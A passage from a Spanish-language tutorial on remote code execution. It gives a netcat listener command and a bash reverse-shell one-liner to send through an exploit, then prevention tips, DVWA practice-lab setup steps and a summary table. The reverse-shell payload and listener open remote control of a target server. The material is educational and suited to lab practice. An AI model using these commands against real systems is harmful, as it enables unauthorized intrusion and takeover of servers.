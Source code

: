 
### 🐚 Reverse Shell (Payload para obtener acceso total)

#### 👾 Objetivo:

Lograr que el servidor se conecte de vuelta a **tu máquina** y te dé una **shell interactiva**.

#### 💻 Tu máquina (atacante)

```bash
nc -lvnp 4444
```

#### 👨‍💻 Enviar este comando a través del exploit:

```bash
bash -i >& /dev/tcp/10.0.0.1/4444 0>&1
```

> Reemplaza `10.0.0.1` con tu IP local.

---

### 🛡️ ¿Cómo prevenir RCE?

(Solo como nota educativa)

- Nunca uses `eval()`, `exec()` o `system()` con datos del usuario
- Sanitiza entradas (filtros de comandos, expresiones regulares)
- Usa listas blancas de comandos permitidos
- Configura correctamente permisos del sistema

---

### 🧪 Laboratorio práctico con DVWA (opcional)

Puedes usar [DVWA](https://github.com/digininja/DVWA) (Damn Vulnerable Web Application) para practicar en local.

Pasos básicos:

1. Instala XAMPP o Docker
2. Clona el repositorio de DVWA
3. Configura el archivo `config.inc.php`
4. Abre en tu navegador `http://localhost/DVWA`
5. Accede a la sección **Command Injection**

---

### ✅ RESUMEN

| Concepto      | Explicación breve                         |
| ------------- | ----------------------------------------- |
| RCE           | Ejecutar comandos en un servidor remoto   |
| Python        | Ideal para automatizar el ataque          |
| Exploit       | Enviar comandos por URL usando `requests` |
| Reverse Shell | Tomar control remoto del sistema          |
| Prevención    | Sanitizar entradas, limitar permisos      |

---